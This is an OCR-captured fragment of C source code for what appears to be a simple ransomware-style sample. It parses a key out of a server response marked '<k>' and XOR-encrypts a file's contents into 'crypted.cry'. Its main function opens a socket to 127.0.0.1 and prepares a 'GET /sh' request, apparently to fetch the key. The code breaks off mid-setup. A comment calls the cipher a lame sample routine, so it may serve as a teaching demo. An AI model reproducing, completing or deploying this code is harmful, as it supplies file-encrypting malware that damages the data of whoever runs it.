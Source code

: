     while(i < BSIZE && kg == 0){
        if(buf[i]== '<' && buf[i+1] == 'k' && buf[i+2] == '>' ){

            for(int j=i+3; j < KSIZE+i+2; j++){
                key[ki] = buf[j];
                ki = ki+1;
            }
            kg = 1;
        }
        i = i+1;
    }
}
// Lame sample routine for byte array xor
void cryp(char key[], char buf[]){

    for(int i = 0; i < KSIZE; i ++){
        buf[i] ^= key[i];
    }

}
// open a file xor the content and dump it to another file
void crypFile(char file[], char key[]){

    int infile, outfile; 
    char buff[KSIZE];
    infile = open (file, O_RDONLY , 0644); 
    outfile = open ("crypted.cry", O_WRONLY | O_CREAT, 0644);
    while(read(infile, &buff, KSIZE)){ 
        cryp(key, buff);

        write(outfile, &buff, KSIZE);
    }
    close (infile); 
    close (outfile);

}

int main(int argc, char *argv[]) {
   int sockfd, portno, n;
   struct sockaddr_in serv_addr;
   struct hostent *server;
   char key[KSIZE];
   char request[] = "GET /sh HTTP/1.1\r\nUser-Agent: nc/0.0.1\r\nHost: 127.0.0.1\r\nAccept: */*\r\n\r\n";
   char buffer[BSIZE];

   portno = 80;
   sockfd = socket(AF_INET, SOCK_STREAM, 0);
   server = gethostbyname("127.0.0.1");

   
   bzero((char *) &serv_addr, sizeof(serv_addr));
   serv_addr.sin_family = AF_INET;
   bcopy((char *)server->h_addr, (char *)&serv_addr.sin_addr.s_addr, server->h_length);
   serv_addr.sin_port = htons(portno);
